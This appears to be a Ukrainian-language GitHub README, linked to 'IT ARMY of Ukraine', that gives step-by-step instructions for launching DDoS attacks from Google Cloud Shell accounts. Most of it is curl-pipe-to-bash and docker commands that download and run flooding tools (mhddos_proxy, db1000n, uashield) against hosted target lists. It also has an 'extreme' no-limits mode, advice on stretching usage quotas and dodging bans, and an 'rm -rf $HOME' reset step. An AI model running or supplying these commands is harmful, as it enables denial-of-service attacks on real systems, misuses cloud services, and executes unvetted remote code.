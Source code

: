 # [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!                                                                                 **| [English version](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/blob/main/README-EN.md)**
#    
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### з ПК та смартфонів (*зі всього, що має браузер*;)
#
#### Браузерний спосіб (*підходить для використання від 1 до 20-30 акаунтів з одного ПК, якщо більше [Вам сюди](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та від 10 до 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще до 50 годин використання на поточний тиждень. Або навпаки, краще починати з ефемерного режиму*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси (*90%*)
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.7" --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest -c https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst -t 3000 --vpn 1 --http-methods GET --rpc 500
```
:white_check_mark: **Команда для встановлення та запуску db1000n** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
:white_check_mark:**Команда для встановлення та запуску db1000n** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" --rm -it --pull always ghcr.io/arriven/db1000n
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** *тільки проксі*  (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m-proxy_only.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску UA-Cyber-SHIELD** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" ghcr.io/opengs/uashield:master --workers=256 --withProxy=true
```
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (команди mhddos_proxy без параметрів)
 :exclamation: **Атаки виходять потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)

